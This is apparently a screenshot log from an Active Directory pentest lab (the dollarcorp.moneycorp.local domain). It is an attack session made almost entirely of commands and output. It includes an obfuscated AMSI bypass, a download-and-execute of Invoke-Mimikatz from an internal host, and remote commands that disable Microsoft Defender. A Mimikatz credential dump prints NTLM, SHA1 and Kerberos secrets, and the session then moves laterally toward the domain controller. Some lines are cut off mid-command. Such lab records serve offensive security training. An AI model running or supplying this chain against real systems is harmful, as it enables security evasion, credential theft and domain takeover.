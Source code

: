 PS C:\Program Files (x86)\Jenkins\workspace\project1>
PS C:\Program Files (x86)\Jenkins\workspace\project1> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BL(('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syt'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"({n`ULl},${t`RuE} )
PS C:\Program Files (x86)\Jenkins\workspace\project1> iex (iwr http://172.16.100.66/Invoke-Mimikatz.ps1 -UseBasicParsing)
PS C:\Program Files (x86)\Jenkins\workspace\project1> $sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
PS C:\Program Files (x86)\Jenkins\workspace\project1> Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess
PS C:\Program Files (x86)\Jenkins\workspace\project1> Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess

  .#####.   mimikatz 2.1.1 (x64) built on Nov 29 2018 12:37:56
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ** Kitten Edition **
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 62734 (00000000:0000f50e)
Session           : Service from 0
User Name         : SQLTELEMETRY
Domain            : NT Service
Logon Server      : (null)
Logon Time        : 11/26/2020 8:41:26 AM
SID               : S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775
        msv :
         [00000003] Primary
         * Username : DCORP-MGMT$
         * Domain   : dcorp
         * NTLM     : 639c1adde3e0d1ba0d733c7d0d8f23ec
         * SHA1     : 944b2007bbb8137e85ecb019f409790040c435f9
        tspkg :
        wdigest :
         * Username : DCORP-MGMT$
         * Domain   : dcorp
         * Password : (null)
        kerberos :
         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : df 1c e9 70 98 2f e1 9f 34 9d f2 d9 a4 75 e2 f0 88 4a 0c 4a 48 fc 82 64 0b cc d6 3d 8d c5 b0 1c 56 57 44 23 e1 d7 b3 0e 66 6d 7f 8c 23 00 39 4
 3d ee 67 ee 6f 28 b5 70 47 76 65 1b 66 a3 6f 71 85 73 7a 94 33 4e 38 a1 6f 2a 16 2c 23 7d 2f ba a2 86 fe 63 62 3e 2d 8e 9a af d6 1d 7e 05 a5 1c eb 04 d2 40 bf 6d c
 cb b7 fd db f6 23 ed bf 9b d3 30 80 03 d6 a9 87 14 88 47 09 8e 26 c3 b4 e7 f6 f6 5f 4b 62 e1 9c 3e 51 4b 7d 4c c0 a1 02 48 72 df b0 3c 32 55 09 ae e2 b7 aa e9 ca e
 f3 d7 fd 65 b4 92 f3 c1 ff ec 81 95 15 b3 db ce 7d 05 41 81 59 2c f6 fd 46 d4 43 cb 89 61 88 2e 5a 1a 99 5f 03 d9 ad 74 f6 c8 35 3e 33 7c 22 20 8a 70 b5 e6 35 1e 4
 60 6f f9 c8 a0 7e b6 9a 84 2a 42 91 df bd fb 54 f6 d8 a9 ba 29 5a 90 70 de ba 53
        ssp :
        credman :


[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\